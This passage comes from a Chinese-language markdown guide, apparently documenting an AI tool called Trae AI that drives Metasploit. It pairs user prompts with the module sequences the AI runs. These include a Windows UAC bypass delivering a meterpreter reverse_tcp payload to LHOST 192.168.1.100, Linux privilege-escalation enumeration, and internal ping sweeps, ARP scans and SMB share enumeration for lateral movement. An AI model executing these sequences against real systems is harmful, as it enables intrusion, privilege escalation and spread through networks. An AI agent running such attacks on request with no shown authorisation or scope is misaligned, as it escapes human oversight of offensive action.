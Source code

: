 **Trae AI 操作流程：**
```
# 檢查權限提升機會
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

# 嘗試 UAC 繞過
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4445
run
```

### 10. Linux 權限提升

**用戶提問：**
```
在 Linux 系統上尋找權限提升途徑
```

**Trae AI 操作流程：**
```
# 本地漏洞建議器
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

# 檢查 SUID 文件
use post/linux/gather/enum_system
set SESSION 1
run
```

## 橫向移動

### 11. 網絡發現和橫向移動

**用戶提問：**
```
發現內網中的其他系統並嘗試橫向移動
```

**Trae AI 操作流程：**
```
# 內網掃描
use post/multi/gather/ping_sweep
set SESSION 1
set RHOSTS 192.168.1.0/24
run

# 端口掃描
use post/windows/gather/arp_scanner
set SESSION 1
run

# SMB 共享枚舉
use post/windows/gather/enum_shares
set SESSION 1
run
```
